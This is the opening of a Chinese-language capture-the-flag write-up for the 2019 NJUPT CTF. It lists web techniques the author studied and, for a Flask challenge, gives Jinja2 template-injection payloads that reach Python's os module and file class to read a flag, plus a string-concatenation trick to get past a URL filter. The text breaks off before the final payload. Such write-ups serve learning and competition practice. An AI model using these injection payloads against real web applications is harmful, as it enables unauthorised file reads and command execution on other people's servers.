 ```yaml
---
title: NJUPT CTF writeup
categories:
  - 比赛Writeup
tags:
  - ctf
  - Writeup
index_img: /img/used/comp.jpg
date: 2019-11-23 21:32:33

---
```


# NJUPT CTF writeup

## 学到的新知识、需要巩固的技术

+ XSS的简单利用

+ XXE的简单应用和内网嗅探特性

+ curl方法外带不回显得系统命令，create_function()，php灵活的函数调用

+ preg_replace()的漏洞，waf的一些绕过技巧

+ pip包的安装过程

## WEB

### Flask

基本算是模板的模板注入题。  

用基础操作找到可以调用os模块的类：  

```
{{"".__class__.__mro__[2].__subclasses__()[68].__init__.__globals__[&#39;os&#39;]}}
```

  发现system函数仅仅给出返回值的回显，可考虑把结果curl发送到vps上，或者结果输出到其他文件上。但其实不用这么麻烦。  

找到file类：  

```
{{"".__class__.__mro__[2].__subclasses__()[40]("../").read()}}
```

发现上层目录存在flag。  

```
{{"".__class__.__mro__[2].__subclasses__()[40]("fl"+"ag").read()}}os的read方法读取flag，发现被过滤。尝试url直接输入flag，也被过滤，说明这是针对url的过滤。直接在python语法中绕过即可。
```

最终payload：
